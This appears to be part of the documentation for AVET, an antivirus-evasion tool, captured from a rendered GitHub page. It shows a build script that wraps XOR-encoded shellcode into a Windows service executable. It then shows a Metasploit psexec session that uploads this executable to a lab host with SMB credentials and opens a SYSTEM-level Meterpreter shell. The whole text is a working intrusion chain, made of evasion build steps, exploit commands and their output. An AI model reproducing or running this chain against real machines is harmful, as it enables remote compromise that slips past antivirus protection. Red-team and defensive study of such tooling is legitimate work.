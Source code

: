 ```
# set payload info source
set_payload_info_source none

# set decoder
set_decoder xor

# set shellcode binding technique
set_payload_execution_method exec_shellcode

# enable debug printing
enable_debug_print to_file C:/avetdbg.txt

# compile as service
$win32_compiler -o output/service.exe source/avetsvc.c -lws2_32
strip output/service.exe

# cleanup
cleanup_techniques

```

And on the metasploit site:
```
msf exploit(psexec) > use exploit/windows/smb/psexec
msf exploit(psexec) > set EXE::custom /root/tools/ave/pwn.exe
EXE::custom => /root/tools/ave/pwn.exe
msf exploit(psexec) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(psexec) > set rhost 192.168.116.183
rhost => 192.168.116.183
msf exploit(psexec) > set smbuser dax
smbuser => dax
msf exploit(psexec) > set smbpass test123
smbpass => test123
msf exploit(psexec) > set lport 8443
lport => 8443
msf exploit(psexec) > run

[*] 192.168.116.183:445 - Connecting to the server...
[*] Started bind handler
[*] 192.168.116.183:445 - Authenticating to 192.168.116.183:445 as user 'dax'...
[*] Sending stage (957487 bytes) to 192.168.116.183
[*] 192.168.116.183:445 - Selecting native target
[*] 192.168.116.183:445 - Uploading payload...
[*] 192.168.116.183:445 - Using custom payload /root/tools/avepoc/a.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.116.183:445 - Created \mzrCIOVg.exe...
[+] 192.168.116.183:445 - Service started successfully...
[*] 192.168.116.183:445 - Deleting \mzrCIOVg.exe...
[-] 192.168.116.183:445 - Delete of \mzrCIOVg.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Exploit completed, but no session was created.
msf exploit(psexec) > [*] Meterpreter session 4 opened (192.168.116.142:33453 -> 192.168.116.183:8443) at 2017-05-27 18:47:23 +0200

msf exploit(psexec) > sessions

Active sessions
===============

Id Type Information Connection
-- ---- ----------- ----------
4 meterpreter x86/windows NT-AUTORIT_T\SYSTEM @ DAX-RYMZ48Z3EYO 192.168.116.142:33453 -> 192.168.116.183:8443 (192.168.116.183)
```